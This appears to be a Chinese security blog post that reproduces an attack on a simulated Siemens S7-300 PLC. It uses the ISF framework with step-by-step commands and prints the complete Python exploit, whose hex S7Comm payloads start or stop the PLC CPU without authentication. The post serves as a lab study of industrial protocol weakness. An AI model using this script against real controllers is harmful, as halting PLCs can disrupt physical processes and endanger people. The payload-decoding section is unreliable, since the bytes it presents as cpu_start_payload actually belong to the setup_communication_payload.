

# 从 SIEMENS PLC S7-300 启停实验中学习 PLC 安全 - 先知社区

从 SIEMENS PLC S7-300 启停实验中学习 PLC 安全

- - -

# 前言

西门子（Siemens）的可编程逻辑控制器（PLC）产品线在中国广泛应用，尤其是体积小、功能强的 S7 系列。S7 系列根据性能分为微型（如 S7-200）、小型（如 S7-300）和中高性能（如 S7-400）。西门子 PLC 使用私有通信协议，主要通过 TPKT 和 ISO8073 协议进行数据交换，通常使用 102 端口。S7Comm 协议用于早期的 S7-200、S7-300 和 S7-400 系列，没有加密，容易受网络攻击。新的 S7CommPlus 协议，如 S7-1500 系列所用，增加了会话 ID 机制，提高了通信安全。

# 环境搭建：

[https://sourceforge.net/projects/snap7/files/1.4.2/](https://sourceforge.net/projects/snap7/files/1.4.2/)  
[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204132802.png)

下载并解压 snap7-full-1.4.2.7z

[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204132948.png)  
跳转至 snap7-full-1.4.2/snap7-full-1.4.2/rich-demos/x86\_64-win64/bin 目录下  
打开 serverdemo.exe  
输入本机 ip 并且点击 start  
[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204133142.png)  
打开 clientdemo.exe 进行连接  
[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204133241.png)  
[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204133349.png)  
连接成功

# 漏洞复现

工控漏洞利用框架 ISF(Industrial Exploitation Framework)  
[https://github.com/dark-lbp/isf](https://github.com/dark-lbp/isf)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204140831-d27a5950-c323-1.png)

环境：  
kalilinux 192.168.116.128  
S7-300 仿真机 192.168.2.2

clone isf 框架到本地

```plain
git clone https://github.com/dark-lbp/isf/
```

下载适用于 python2 的 nmap 包到本地

```plain
https://launchpad.net/ubuntu/+source/python-nmap/0.1.4-1
tar xvzf python-nmap_0.1.4.orig.tar.gz
cd python-nmap-0.1.4
python2 setup.py install
```

运行 isf 框架

```plain
cd isf
sudo su
python2 isf.py
```

[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204134344.png)

使用 s7 300/400 攻击模块

```plain
use exploits/plcs/siemens/s7_300_400_plc_control
```

[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204134858.png)  
设置目标

```plain
set target 192.168.2.2
```

[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204135008.png)  
开始攻击

```plain
run
```

[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204135048.png)  
[](https://payioad-img.oss-cn-beijing.aliyuncs.com/img/20240204135125.png)  
利用成功

# 漏洞分析

## exp 分析

利用脚本在 icssploit/modules/exploits/plcs/siemens/s7\_300\_400\_plc\_control.py 下

```plain
import socket
import time

setup_communication_payload = '0300001902f08032010000020000080000f0000002000201e0'.decode('hex')
cpu_start_payload = "0300002502f0803201000005000014000028000000000000fd000009505f50524f4752414d".decode('hex')
cpu_stop_payload = "0300002102f0803201000006000010000029000000000009505f50524f4752414d".decode('hex')

class Exploit(exploits.Exploit):


    target = exploits.Option('', 'Target address e.g. 192.168.1.1', validators=validators.ipv4)
    port = exploits.Option(102, 'Target Port', validators=validators.integer)
    slot = exploits.Option(2, 'CPU slot number.', validators=validators.integer)
    command = exploits.Option(2, 'Command 1:start plc, 2:stop plc.', validators=validators.integer)
    sock = None

    def create_connect(self, slot):
        slot_num = chr(slot)
        create_connect_payload = '0300001611e00000001400c1020100c20201'.decode('hex') + slot_num + 'c0010a'.decode('hex')
        self.sock.send(create_connect_payload)
        self.sock.recv(1024)
        self.sock.send(setup_communication_payload)
        self.sock.recv(1024)

    def exploit(self):
        self.sock = socket.socket()
        self.sock.connect((self.target, self.port))
        self.create_connect(self.slot)
        if self.command == 1:
            print_status("Start plc")
            self.sock.send(cpu_start_payload)
        elif self.command == 2:
            print_status("Stop plc")
            self.sock.send(cpu_stop_payload)
        else:
            print_error("Command %s didn't support" % self.command)

    def run(self):
        if self._check_alive():
            print_success("Target is alive")
            print_status("Sending packet to target")
            self.exploit()
            if not self._check_alive():
                print_success("Target is down")
        else:
            print_error("Target is not alive")

    @mute
    # TODO: Add check later
    def check(self):
        pass

    def _check_alive(self):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(1)
            sock.connect((self.target, self.port))
            sock.close()
        except Exception:
            return False
        return True
```

该类中一共有四个方法

create\_connect：  
它接收一个 slot 参数（代表 CPU 的插槽号）。  
create\_connect\_payload 是根据插槽号构造的特定有效载荷，用于初始化与 PLC 的连接。  
方法首先通过 socket 发送 create\_connect\_payload，然后等待接收 PLC 的响应。接着发送 setup\_communication\_payload 来完成通信设置

exploit：  
它首先创建一个 socket 连接到目标 PLC 的 IP 地址和端口。  
调用 create\_connect 方法来建立与 PLC 的连接。  
根据 command 选项的值，决定是发送 cpu\_start\_payload（如果 command 为 1）来启动 PLC，或是发送 cpu\_stop\_payload（如果 command 为 2）来停止 PLC

run :  
run 方法首先检查目标 PLC 是否在线（通过调用\_check\_alive 方法）。  
如果目标在线，它会输出状态信息，并调用 exploit 方法来执行攻击。  
攻击执行后，再次检查目标状态，以确认攻击是否成功。

\_check\_alive:  
它尝试通过 socket 连接到 PLC 的 IP 地址和端口。  
如果连接成功，说明 PLC 在线，方法返回 True；否则捕获异常，返回 False。

## cpu\_start\_payload 分析：

0300002502f0803201000005000014000028000000000000fd000009505f50524f4752414d  
解码成字节串  
\\x03\\x00\\x00\\x19\\x02\\xf0\\x80\\x32\\x01\\x00\\x00\\x02\\x00\\x00\\x08\\x00\\x00\\xf0\\x00\\x00\\x02\\x00\\x02\\x01\\xe0  
\\x03：数据包的起始字节  
\\x00\\x00\\x19：数据包的长度  
\\x02\\xf0\\x80：固定协议标识 (s7 协议)

剩下的部分与案例流量包中的 S7 Communication 部分一致

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204145701-98dd9db8-c32a-1.png)

案例流量包下载：  
[https://wiki.wireshark.org/SampleCaptures?action=AttachFile&do=get&target=s7comm\_downloading\_block\_db1.pcap](https://wiki.wireshark.org/SampleCaptures?action=AttachFile&do=get&target=s7comm_downloading_block_db1.pcap)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204150327-7eb14eb6-c32b-1.png)

# 总结

随着越来越多的工业系统接入网络，它们也日益暴露于潜在的网络攻击之下。因此，研究如何设计更为安全的通信协议，以及如何在保持操作效率的同时提高系统的安全防护能力，成为了一个重要的课题。

新一代的工业控制系统通常采用更加先进的安全机制，比如西门子的 S7-1500 PLC 系列，我们可以看到制造商在安全性方面有了显著的进步。S7-1500 系列增加了更多的安全功能，如加密通信、访问控制列表（ACL）和用户认证机制。这些功能的引入，显著提高了 PLC 的安全性，为现代工业控制系统设立了新的安全标准。这些改进也反映了制造商对于早期系统漏洞的响应，以及他们在产品迭代中不断增强安全性的努力。
